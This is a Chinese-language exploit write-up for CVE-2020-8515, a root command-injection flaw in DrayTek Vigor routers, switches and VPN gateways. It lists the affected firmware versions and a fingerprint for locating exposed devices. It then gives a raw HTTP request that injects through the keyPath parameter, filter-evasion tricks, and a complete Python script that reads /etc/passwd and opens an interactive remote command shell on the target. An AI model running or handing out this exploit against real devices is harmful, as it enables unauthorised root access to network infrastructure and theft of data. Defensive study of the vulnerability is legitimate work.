


# DrayTek企业网络设备 远程命令执行 CVE-2020-8515

## 漏洞描述

DrayTek URI未能正确处理SHELL字符，远程攻击者可以利用该漏洞提交特殊的请求，可以ROOT权限执行任意命令。

远程命令注入漏洞被标记为CVE-2020-8515，主要影响了DrayTek Vigor网络设备，包括企业交换机、路由器、负载均衡器和VPN网关。

## 漏洞影响

```
Vigor2960 < v1.5.1
Vigor300B < v1.5.1
Vigor3900 < v1.5.1
VigorSwitch20P2121 <= v2.3.2
VigorSwitch20G1280 <= v2.3.2
VigorSwitch20P1280 <= v2.3.2
VigorSwitch20G2280 <= v2.3.2
VigorSwitch20P2280 <= v2.3.2
```

## 网络测绘

```
title="Vigor 2960"
```

## 漏洞复现

登录页面抓包


请求包如下

```plain
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=login&keyPath=%27%0A%2fbin%2fls%0A%27&loginUser=a&loginPwd=a
```


其中出现注入点的参数为 **keyPath**

出现空格需要替换，例如 cat /etc/passwd --> cat${IFS}/etc/passwd

可以使用 & 执行额外一条命令 (URL编码为 %26)



## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> pwd                                                \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = "action=login&keyPath=%27%0A%2fbin%2fcat${IFS}/etc/passwd%0A%27&loginUser=a&loginPwd=a"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Cmd = input("\033[35mCmd >>> \033[0m")
                if Cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, Cmd)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)

def POC_2(target_url, Cmd):
    vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    Cmd = Cmd.replace(' ','${IFS}')
    data = "action=login&keyPath=%27%0A%2fbin%2f%26{}%0A%27&loginUser=a&loginPwd=a".format(Cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


